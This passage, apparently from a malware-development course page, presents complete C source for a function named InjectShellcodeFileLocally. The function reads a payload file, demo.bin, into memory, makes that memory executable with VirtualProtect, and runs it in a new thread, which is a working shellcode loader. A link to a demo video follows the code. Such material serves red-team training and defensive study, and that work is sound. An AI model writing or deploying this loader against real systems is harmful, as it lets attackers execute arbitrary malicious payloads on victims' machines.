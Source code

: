 `InjectShellcodeFileLocally` is shown below and requires one argument, `wsShellFileName`, which is the payload file to read (`demo.bin`).

```c

BOOL InjectShellcodeFileLocally(IN LPCWSTR wsShellFileName) {

	HANDLE	hFile					= INVALID_HANDLE_VALUE;
	DWORD	dwBufferSize			= NULL,
			dwNumberOfBytesRead		= NULL,
			dwOldProtection			= NULL;
	PBYTE	pBufferData				= NULL;

	BOOL	bResults				= FALSE;

	if ((hFile = CreateFileW(wsShellFileName, GENERIC_READ, NULL, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL)) == INVALID_HANDLE_VALUE) {
		printf("[!] CreateFileW Failed With Error : %d \n", GetLastError());
		goto _EndOfFunc;
	}

	if ((dwBufferSize = GetFileSize(hFile, NULL)) == INVALID_FILE_SIZE) {
		printf("[!] GetFileSize Failed With Error : %d \n", GetLastError());
		goto _EndOfFunc;
	}

	if ((pBufferData = VirtualAlloc(NULL, dwBufferSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE)) == NULL) {
		printf("[!] VirtualAlloc Failed With Error : %d \n", GetLastError());
		goto _EndOfFunc;
	}

	if (!ReadFile(hFile, pBufferData, dwBufferSize, &dwNumberOfBytesRead, NULL) || dwNumberOfBytesRead != dwBufferSize) {
		printf("[!] ReadFile Failed With Error : %d \n", GetLastError());
		printf("[!] Bytes Read: %d of %d\n", dwNumberOfBytesRead, dwBufferSize);
		goto _EndOfFunc;
	}

	if (!VirtualProtect(pBufferData, dwBufferSize, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
		printf("[!] VirtualProtect Failed With Error : %d \n", GetLastError());
		goto _EndOfFunc;
	}

	printf("\t> Running Payload Via Thread ");
	DWORD	dwThreadId	= 0x00;
	HANDLE	hThread		= CreateThread(NULL, NULL, pBufferData, NULL, NULL, &dwThreadId);
	printf("[ %d ] ... \n", dwThreadId);
	if (hThread) {
		WaitForSingleObject(hThread, INFINITE);
	}

	bResults = TRUE;

_EndOfFunc:
	if (hFile != INVALID_HANDLE_VALUE)
		CloseHandle(hFile);
	return bResults;
}
```

The demo is shown below.

[![Video-Demo](https://maldevacademy.s3.amazonaws.com/new/update-three/etw-3-demo-cover.png)](https://maldevacademy.s3.amazonaws.com/new/update-three/etw-3-demo.mp4)
